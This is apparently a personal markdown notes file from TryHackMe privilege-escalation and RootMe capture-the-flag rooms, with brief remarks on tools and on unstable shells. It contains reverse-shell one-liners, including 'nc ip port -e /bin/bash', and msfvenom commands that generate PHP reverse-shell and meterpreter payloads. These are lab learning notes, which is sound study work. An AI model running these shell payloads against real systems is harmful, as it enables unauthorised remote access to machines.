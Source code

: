 # R

* Remember for web/general/security
* .todo: metasploit dns
* .todo: web
* web general | terminology | URL may have to be moved
* explose hacking_process

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* exploit/multi/handler
* nc ip port -e /bin/bash

* socat is a sort of ncat+more, but not installed by default, and harder to learn.
* Socat: transfer the socat binary

<hr>

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups